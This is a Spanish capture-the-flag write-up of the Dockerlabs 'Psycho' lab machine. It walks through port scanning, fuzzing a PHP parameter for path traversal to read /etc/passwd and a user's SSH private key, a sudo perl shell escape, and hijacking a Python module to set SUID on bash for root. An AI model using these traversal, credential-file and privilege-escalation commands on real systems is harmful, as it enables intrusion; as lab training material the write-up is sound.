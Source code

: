 ```yaml
---
layout: post
title: Psycho
subtitle: Plataforma Dockerlabs Dificultad Fácil
cover-img: /assets/img/Psycho.png
thumbnail-img: /assets/img/Psycho.png
share-img: /assets/img/Psycho.png
author: Elmili72
---
```


## 1. Escaneo general de puertos

El primer paso como siempre será realizar un escaneo general de los puertos en la máquina.

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 2. Escaneo específico de puertos

Conociendo los puertos abiertos, ahora habría que realizar un escaneo específicos de esos puertos para conocer que servicios y en que versión corren esos puertos.

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos que tenemos los puertos 22 y 80.
## 3. Reconocimiento de servicio web

A la hora de hacer reconocimiento web, a mi me gusta utilizar la herramienta *WHATWEB* para conocer las teconologías que corren en el puerto 80.

```bash
whatweb http://172.17.0.2                                                                                                                     
http://172.17.0.2 [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Script, Title[4You]
```

Una vez hemos visto lo que usa entramos en la página para ver lo que hay. Vemos botones de login y demás que no tienen ningún tipo de función.

![image](https://github.com/user-attachments/assets/0019ef0b-30e5-4241-ac56-255c5a704a4b)

Si bajamos del todo en la página aparece muy pequeño un mensaje de error.

![image](https://github.com/user-attachments/assets/428ac325-3e53-47a3-9d62-7220659ca3bd)

Podemos intuir que al ser una extensión *PHP* está intentando realizar una llamada  aun archivo del sistema que no llegar a alcanzar. Por lo que realizamos un escaneo con *WFUZZ* para reconocer el parámetro al cual tiene que llamar para cargar ese error. Además, de añadir un destino que podría sernos interesante para que ese parámetro nos refleje información si fuera el caso.

## 4. Escaneo de servicio web

Una vez ya hemos visto el contenido de la página toca escanear el interior de esta, usando *GOBUSTER* no nos aparece nada que sea realmente útil. Así que atendiendo a lo anteriormente dicho procedemos a realizar Fuzzing para ver si hemos acertado con la teoría.

```bash
wfuzz -c --hc 404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd
```

Efectivamente, aparece un parámetro llamado *secret*, con el cual podemos hacer cositas.

![image](https://github.com/user-attachments/assets/705c39fa-de8b-4a45-8479-6d06dc66825c)

Lo primero será mirar que usuarios tenemos y por los que podemos intentar una intrusión.

![image](https://github.com/user-attachments/assets/bc8910fb-5972-4085-adeb-7b9b72f4eb7e)

![image](https://github.com/user-attachments/assets/6dcee189-6749-47e0-966e-df4cc49a0f16)

![image](https://github.com/user-attachments/assets/0767be01-a0de-4282-8e66-75e03895c9fd)

## 5. Intrusión

Realizamos un intento de fuerza bruta con **HYDRA** pero no nos saca nada, por lo que vamos a aprovechar el parámetro de la web para intentar lograr alguna **ID_RSA** de los usuarios.

![image](https://github.com/user-attachments/assets/4c3b1611-d6bd-4fbd-87c9-f10dcd7c4c9b)

**IMPORTANTE**
```bash
chmod 600 id_rsa
```

![image](https://github.com/user-attachments/assets/77718b41-2afc-47bb-b5c2-50d5d6ccb8e4)

Y estamos dentro del usuario *Vaxei*

## 6. Pivoting

El usuario actual lamentablemente no nos da la posibilidad de realizar una escalada de privilegios directa, por lo que tendremos que realizar pivoting para saltar al usuario Luisillo y comprobar si nos da ese permiso.

```bash
vaxei@8a3056fa86ef:~$ sudo -l
Matching Defaults entries for vaxei on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 8a3056fa86ef:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Vemos que el binario *perl* puede ser explotado para el pivoting por lo que tiramos de nuestro fiel amigo *GTFOBins* y nos convertimos en el usuario Luisillo.

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
script /dev/null -c bash
stty raw -echo; fg
Ctrl + Z
reset XTERM

luisillo@8a3056fa86ef:/home/vaxei$ whoami
luisillo
```

## 7. Escalada de privilegios

Ahora el paso más bonito de un CTF, convertirnos en *ROOT*.

```bash
luisillo@8a3056fa86ef:/home/vaxei$ sudo -l
Matching Defaults entries for luisillo on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 8a3056fa86ef:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

De primeras ya vemos un script llamado *paw.py* que ejecuta un script que hace una llamada a un módulo que parece que no existe, por lo que como buenas personas que somos vamos a entregarle ese proceso que tanto busca :).

![image](https://github.com/user-attachments/assets/9def538a-44df-45fb-9c1f-45dd934fbfe4)

Creamos un script que se llame igual que pide el script anterior, en este caso *subprocess.py*. Y escribirmos lo siguiente:

![image](https://github.com/user-attachments/assets/9ce67438-f6cc-4295-bf9f-e038c39beecc)

![image](https://github.com/user-attachments/assets/5ae23475-978b-4397-91ef-40e022038683)


Podemos ver en la imagen anterior que la bash no tiene permisos SUID, pero nosotros vamos a corregir eso con nuestro suprocess.py.

![image](https://github.com/user-attachments/assets/864eb1f0-9ffc-4716-af0a-fac0768eb5f4)

![image](https://github.com/user-attachments/assets/956a65d6-49df-451b-8044-2073b5b1a383)

Tras ejecutar el script vemos que le hemos dado ese privilegio a la bash para poder ejecutar una bash privilegiada desde el usuario Luisillo.

```bash
luisillo@8a3056fa86ef:/opt$ bash -p
bash-5.2# whoami
root
```

Espero que os haya gustado y que os haya sido de ayuda este writeup, nos vemos en el próximo!
